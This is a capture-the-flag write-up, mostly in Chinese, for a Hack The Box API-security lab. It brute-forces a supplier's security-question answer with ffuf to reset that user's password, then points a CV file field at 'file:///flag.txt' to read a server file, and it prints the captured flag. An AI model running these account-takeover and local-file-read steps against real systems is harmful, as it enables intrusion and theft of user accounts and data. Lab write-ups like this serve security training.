





## Scenario
After reporting all vulnerabilities in versions v0 and v1 of `Inlanefreight E-Commerce Marketplace`, the admin attempted to patch all of them in v2:
However, new junior developers have implemented additional functionalities in v2, and the admin is concerned that they may have introduced new vulnerabilities. Assess the security of the new web API version and apply everything you have learned throughout the module to compromise it.

### Provided informations
- Submit the contents of the flag at `/flag.txt`.
- user `htbpentester@hackthebox.com`
- password `HTBPentester`


### Steps

First we login as supplier with provided user email and password
and check what roles do we have

`GET /api/v2/roles/current-user`
```json
{
  "roles": [
    "Suppliers_Get",
    "Suppliers_GetAll"
  ]
}
```

We can see that we have two roles
1. `Suppliers_Get`
2. `Suppliers_GetAll`


`GET /api/v2/suppliers` - `Suppliers_GetAll`


底下有幾個 user 是已經設定好 `securityQuestion` 的 
- `securityQuestion` : `What is your favorite color?`

看起來是個可以容易被猜到答案的問題
而且有一個 endpoint 正是可以用 `securityQuestion` 去重新設定 user 密碼
`POST /api/v2/authentication/suppliers/passwords/resets/security-question-answers`

Request 要求這三個欄位
```json
{
  "SupplierEmail": "string",
  "SecurityQuestionAnswer": "string",
  "NewPassword": "string"
}
```

我們在剛剛 `GET /api/v2/suppliers` 就已經看到 user 的 email 了
剩下就只需要猜 `securityQuestion` 的答案是什麼顏色就好了
用 `ffuf` 帶著 `req.txt` 和有設定 `securityQuestion` 的 user 的 emails (`emails.txt`) 還有 `colors.txt` (給 claude code 生成的 😂) 去暴力破解答案

`req.txt`
```http
POST /api/v2/authentication/suppliers/passwords/resets/security-question-answers HTTP/1.1
Host: 154.57.164.65:39092
Content-Length: 121
Accept-Language: zh-TW,zh;q=0.9
accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Origin: http://154.57.164.65:39092
Referer: http://154.57.164.65:39092/swagger/index.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "SupplierEmail": "EMAIL",
  "SecurityQuestionAnswer": "COLOR",
  "NewPassword": "12345678"
}
```

```shell
ffuf -request req.txt -request-proto http -w emails.txt:EMAIL -w colors.txt:COLOR -fr "false"
```


成功把 email 為 `B.Rogers1535@globalsolutions.com` 的 user 的密碼改成 `12345678` 了 (`id` : `36f17195-395f-443e-93a4-8ceee81c6106`)

成功登入之後也看一下有哪些 `Roles` 
```json
{
  "errorMessage": "User does not have any roles assigned"
}
```

結果沒有任何 `Roles` 

但是有一個我們可以使用的 `endpoint` 是 `PATCH /api/v2/suppliers/current-user`
Reuqest 要求的欄位
```json
{
  "SecurityQuestion": "string",
  "SecurityQuestionAnswer": "string",
  "ProfessionalCVPDFFileURI": "string",
  "PhoneNumber": "string",
  "Password": "string"
}
```

其中的 `ProfessionalCVPDFFileURI` 是 `user-controlled`
而且還有另一個 api 是 `GET /api/v2/suppliers/current-user/cv`
- `Get a Supplier's CV as Base64`

所以我們可以用這個 api 去把 `ProfessionalCVPDFFileURI` 改成 `file:///flag.txt`

```json
{
  "SecurityQuestion": "What is your favorite color?",
  "SecurityQuestionAnswer": "rust",
  "ProfessionalCVPDFFileURI": "file:///flag.txt",
  "PhoneNumber": "123456789",
  "Password": "12345678"
}
```


成功把 URI 改掉之後, 接著再用 `GET /api/v2/suppliers/current-user/cv` 把 `/flag.txt` 的內容給讀出來



成功拿到 `/flag.txt` 的內容了
```json
{
  "successStatus": true,
  "base64Data": "SFRCe2YxOTBiODBjZDU0M2E4NGIyMzZlOTJhMDdhOWQ4ZDU5fQo="
}
```

最後再用 `Base64` decode 之後就可以拿到 flag 了



- Flag : `HTB{f190b80cd543a84b236e92a07a9d8d59}`


### Summarization

- Full exploit chain
1. 看到 `securityQuestion` 可以被暴力破解
2. 接著登入被破解的 user 進一步拿更多資訊
3. 觀察到 `ProfessionalCVPDFFileURI` 可以被更改 -> 改成 `file:///flag.txt`
4. 最後用 `GET /api/v2/suppliers/current-user/cv` 把 `/flag.txt` 給讀出來
